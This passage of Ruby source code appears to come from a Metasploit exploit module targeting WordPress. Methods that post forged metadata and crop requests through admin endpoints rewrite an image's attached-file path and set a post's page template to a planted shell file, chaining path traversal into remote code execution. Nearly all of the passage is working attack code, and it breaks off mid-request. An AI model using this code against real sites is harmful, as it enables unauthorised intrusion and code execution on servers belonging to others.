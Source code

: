         filename << '.jpg'
      end

      def change_path(wpnonce2, image_id, filename, current_date, path, cookie)
        uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'post.php')
        res = send_request_cgi(
          'method'   => 'POST',
          'uri'      => uri,
          'cookie' => cookie,
          'vars_post'  => {
            '_wpnonce' => wpnonce2,
            'action' => 'editpost',
            'post_ID' => image_id,
            'meta_input[_wp_attached_file]' => "#{current_date}#{filename}#{path}"
          }
        )
      end

      def crop_image(image_id, ajax_nonce, cookie)
        uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'admin-ajax.php')
        res = send_request_cgi(
          'method'   => 'POST',
          'uri'      => uri,
          'cookie' => cookie,
          'vars_post'  => {
            'action' => 'crop-image',
            '_ajax_nonce' => ajax_nonce,
            'id' => image_id,
            'cropDetails[x1]' => 0,
            'cropDetails[y1]' => 0,
            'cropDetails[width]' => 400,
            'cropDetails[height]' => 300,
            'cropDetails[dst_width]' => 400,
            'cropDetails[dst_height]' => 300
          }
        )
      end

      def include_theme(shell_name, cookie)
        uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'post-new.php')
        res = send_request_cgi(
          'method'   => 'POST',
          'uri'      => uri,
          'cookie' => cookie
        )
        if res && res.code == 200 && res.body && !res.body.empty?
          wpnonce2 = res.body.scan(/name="_wpnonce" value="(\w+)"/).flatten.first
          post_id = res.body.scan(/"post":{"id":(\w+),/).flatten.first
          fail_with(Failure::NotFound, 'Unable to retrieve the second wpnonce and the post id') unless wpnonce2 && post_id

          post_title = Rex::Text.rand_text_alpha(10)
          uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'post.php')
          res = send_request_cgi(
            'method'   => 'POST',
            'uri'      => uri,
            'cookie' => cookie,
            'vars_post'  => {
              '_wpnonce'=> wpnonce2,
              'action' => 'editpost',
              'post_ID' => post_id,
              'post_title' => post_title,
              'post_name' => post_title,
              'meta_input[_wp_page_template]' => "cropped-#{shell_name}.jpg"
            }